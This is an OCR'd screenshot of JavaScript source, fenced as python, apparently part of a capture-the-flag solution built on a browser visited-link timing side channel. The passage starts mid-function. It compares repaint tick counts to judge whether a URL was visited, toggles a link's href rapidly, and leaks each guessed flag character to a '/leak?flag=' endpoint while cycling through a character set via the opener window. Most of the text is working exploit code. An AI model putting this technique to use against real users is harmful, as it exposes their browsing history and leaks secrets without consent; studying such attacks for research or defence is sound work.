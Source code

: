 ```python
                        let [guess, current_guess] = url.split('|');
                        if(cond){
                            await fetch(`/leak?flag=${guess}${current_guess}`);
                            if (opener) {
                                opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${guess}${current_guess}|a`;
                            }
                        }
                        else {
                            let charset = '{{ CHARSET }}'.split('');
                            if (opener) {
                                opener.location.href = `/?query=${Math.random()}&ratio=${ratio}#${guess}|${charset[charset.indexOf(current_guess)+1]}`;
                            }
                        }
                    }
                    sendBeacon(likelyVisited);

                    document.body.style.overflow = 'visible';
                    
                    var outputDom = document.createElement('p');
                    
                    outputDom.appendChild(document.createTextNode('Result for '));
                    
                    var linkDom = document.createElement('a');
                    linkDom.href = experimentUrl;
                    linkDom.appendChild(document.createTextNode(experimentUrl));
                    outputDom.appendChild(linkDom);
                    
                    outputDom.appendChild(document.createTextNode(': likely '));
                    
                    var resultDom = document.createElement('strong');
                    resultDom.innerHTML = likelyVisited ? 'VISITED' : 'UNVISITED';
                    resultDom.style.color = likelyVisited ? 'green' : 'red';
                    outputDom.appendChild(resultDom);
                    
                    outputDom.appendChild(document.createTextNode(
                        ' (' + experimentTickCount + ' ticks vs ' +
                        controlTickCount + ' ticks; ratio = ' +
                        Math.round(ratio * 100) + '%).'));
                    
                    document.body.appendChild(outputDom);
                    
                    var retryButton = document.createElement('button');
                    retryButton.innerHTML = 'Try Another URL';
                    retryButton.addEventListener('click', function (e) {
                        location.reload();
                    });
                    document.body.appendChild(retryButton);
                    retryButton.focus();
                }, 500);
            } 
                
            var oscillateInterval;
            var isPointingToBasisUrl = true;
            function startOscillatingHref (testUrl) {
                oscillateInterval = setInterval(function () {
                    targetLink.href = isPointingToBasisUrl ? testUrl : basisUrl;
                    isPointingToBasisUrl = !isPointingToBasisUrl;
                }, 0);
            }
            function stopOscillatingHref () {
                clearInterval(oscillateInterval);
```